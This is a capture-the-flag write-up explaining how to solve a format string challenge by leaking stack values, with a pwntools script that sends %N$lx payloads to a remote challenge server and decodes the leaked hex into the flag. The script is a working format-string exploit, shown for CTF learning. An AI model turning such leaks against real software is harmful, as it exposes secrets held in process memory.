



[Source Code](./handout/0-Stack_Read)

From the source code, we can see that the flag is read in the main function and is stored in the `flag` variable.  
It means the `flag` is on the stack.

From the source code, there is a format string vulnerability in the `greet` function  
[Format String Vulnerability Explanation](./README.md)  



To solve this challenge we need to read from the stack.  

Here I wrote a script to automate the process instead of doing it manually.  
This script will:  
1. Iterate from 1 to 31 and send `%1$lx`,`%2$lx` ... `%30$lx` to the program to leak value from the stack  
2. Extract the value return by the program with the `leak_hex_int` function  
3. Convert those value into text with the `decode_leaks` in little and big endian and show it to us.  

```python
from pwn import *

HOST = "chal.sigpwny.com"
PORT = 1381

def leak_hex_int(output):
	import re
	# Match hex values of reasonable length (>= 6 chars to avoid noise)
	matches = re.findall(rb'\b[0-9a-fA-F]{6,}\b', output)
	return [int(m, 16) for m in matches]

def decode_leaks(leaks):
	"""
	Try to decode a list of hex ints (from leak_hex_int) as ASCII strings.
	Attempts: little endian, big endian, raw hex bytes.
	"""
	def to_printable(b):
		text = b.decode(errors='ignore')
		return ''.join(c for c in text if c.isprintable()) or None  
		
	for i, val in enumerate(leaks):	
		size = (val.bit_length() + 7) // 8 or 1
		log.info(f"--- leak[{i}] {hex(val)} ---")
		for order in ('little', 'big'):
			try:
				decoded = to_printable(val.to_bytes(size, order))			
				log.info(f" {order:6}: '{decoded}'" if decoded else f" {order:6}: (not printable)")
			except Exception:
				log.info(f" {order:6}: (failed)")
		# Raw hex bytes display (no endian, just bytes as-is)
		raw = val.to_bytes(size, 'big').hex(' ')
		log.info(f" raw hex: {raw}")


conn = remote(HOST, PORT)
for i in range(1, 31):
	try:
		# Send paload after we encouter "? "
		conn.sendlineafter(b"? ",f"%{i}$lx".encode())
				
		#Receive the result
		out = conn.recvline()
		
		# Show the output		
		log.info(f"[{i}] {out}")
		
		# Extract the leaked hex
		tmp = leak_hex_int(out)
		
		# Try convertion in ascii in little and big endian and display the result		
		decode_leaks(tmp)
	
	except EOFError:
		log.warning(f"EOF at offset {i}")
```



We read the stack and got the flag!  

[1-Arbitrary_Read](./1-Arbitrary_Read.md)
